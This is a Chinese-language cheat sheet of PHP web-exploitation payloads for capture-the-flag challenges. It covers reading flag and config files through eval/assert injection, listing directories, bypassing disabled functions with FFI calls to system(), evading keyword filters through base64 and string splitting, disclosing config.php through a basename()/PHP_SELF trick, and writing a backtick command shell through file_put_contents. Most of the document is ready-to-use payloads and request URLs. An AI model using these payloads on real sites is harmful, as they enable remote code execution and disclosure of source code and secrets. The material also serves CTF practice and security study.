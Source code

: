 在线php运行：<https://www.jyshare.com/compile/1/>



## **php常见特殊函数和绕过**
**文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=show_source('flag.php');
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
**代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```

^
^

命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system

^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


^
## **file_put_contents()场景写文件漏洞**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```